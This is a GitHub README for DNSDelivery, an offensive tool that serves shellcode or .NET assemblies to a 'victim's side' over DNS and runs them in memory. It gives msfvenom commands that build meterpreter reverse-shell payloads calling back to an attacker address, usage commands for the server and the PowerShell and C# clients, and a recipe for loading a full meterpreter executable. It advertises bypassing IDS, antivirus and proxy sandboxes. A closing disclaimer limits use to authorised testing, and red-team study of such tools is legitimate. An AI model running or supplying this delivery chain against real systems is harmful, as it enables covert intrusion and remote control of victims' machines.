 DNS Delivery
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

DNSDelivery provides delivery and in memory execution of shellcode or .Net assembly using DNS requests delivery channel.

DNSDelivery has to sides:
  1. The server side, coming as a single python script (`dnsdelivery.py`), which acts as a custom DNS server, serving the payload data
  2. The client side (*victim's side*), which comes in two flavor:
  - `dnsdelivery.cs`: a C# script that can be compiled with `csc.exe` to provide a Windows managed executable
  - `Invoke-DNSDelivery`: a PowerShell script providing the exact same functionnalities

In order for the whole thing to work **you need to own your domain name** and set the DNS record for that domain to point to the server that will run the `dnsdelivery.py` server side.
For local testing purposes though, you can configure the client side scripts to point to any DNS server.

Dependencies
----------------------

The only dependency is on the server side, as the `dnsdelivery.py` script relies on the external **dnslib** library. You can installing it using pip:
```
pip install dnslib
```

Configuration
----------------------

The only mandatory configurable parameter on the client side is the DNS domain name you want to use (*the one you're running the DNS server side on*).
An optionnal configurable parameter is the DNS server you want to use. By default, it will use the system's default DNS server.

  - For the C# script, you need to edit the script and set the parameters in the PARAM class, comments and variable names are pretty self-explanatory. Then compile it using the built-in C# compiler csc.exe: `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:dnsdelivery.exe *.cs`

  - For the PowerShell script, you can simply pass the parameters as arguments. Once the module is loaded into powershell simply check the syntax with `Get-Help Invoke-DNSDelivery`


Usage
----------------------

***SERVER SIDE***

Call the `dnsdelivery.py script with the appropriate parameters:
  - The `type` of content being delivered: can be either `shellcode` or `assembly`
  - The `filename` which is the name (*or path*) of the file being delivered

If a `shellcode` type is to be delivered, it **must** be a **raw** type shellcode obtained, for instance, from metasploit:

```
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f raw > myShellcodeFile.raw
```

Example of delivering a shellcode:
```
root@kali:~# ./dnsdelivery.py shellcode myShellcodeFile.raw
[*] File [myShellcodeFile.raw] successfully loaded
[*] Data split into [5] chunks of 250 bytes
[*] DNS server listening on port 53
[*] Serving [myShellcodeFile.raw] advertised as a [shellcode] data type
```

Example of delivering a .Net assembly:
```
root@kali:~# ./dnsdelivery.py assembly peloader.exe
[*] File [peloader.exe] successfully loaded
[*] Data split into [1058] chunks of 250 bytes
[*] DNS server listening on port 53
[*] Serving [peloader.exe] advertised as a [assembly] data type
```

***CLIENT SIDE***

If using the C# compiled Windows executable: simply execute it, the parameters are hardcoded within the script.

If using the PowerShell script, well, call it in any of your prefered way (*you probably know tons of ways of invoking a powershell script*) along with the script parameters. Most basic example:
```
c:\DNSDelivery> powershell
PS c:\DNSDelivery> Import-Module .\Invoke-DNSDelivery.ps1
PS c:\DNSDelivery> Invoke-DNSDelivery -DomainName mydomain.example.com -Verbose
[...]
```

Sample use cases
----------------------

I found this delivery method very useful and handy for delivering:

- any meterpreter shellcode
- full-fledged meterpreter executable (*standalone meterpreter executable, not staged*)
- any .Net assembly you can think of

while completely **bypassing perimeter security** (IDS, content analysis like AV and sandboxes on proxies, etc.).

Example of delivering a full-fledged meterpreter executable:

First create a non-staged meterpreter executable:
```
root@kali:~# msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f exe-only > meterpreter.exe
```
Second, encode this executable to a base64 string:
```
root@kali:~# cat meterpreter.exe > base64 -w 0 > meterpreter.b64
```

Third paste the base64 string (*yes, it can be huge, around 3MB*) into the `peLoader.cs` (thx @SubTee) available here [@peloader.cs](https://github.com/Arno0x/CSharpScripts/blob/master/peloader.cs) and compile this into a Windows executable (*which by the way IS a .Net assembly*).

Eventually, serve it with DNSDelivery:
```
root@kali:~# ./dnsdelivery.py assembly meterpreter_peloader.exe
```
It can be long because the data is delivered over DNS, chunk by chunk (*250 bytes per chunk*), but who cares if it takes 10 minutes and you eventually get you full-fledged meterpreter executable loaded into memory and executed on the victim's machine :-)

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*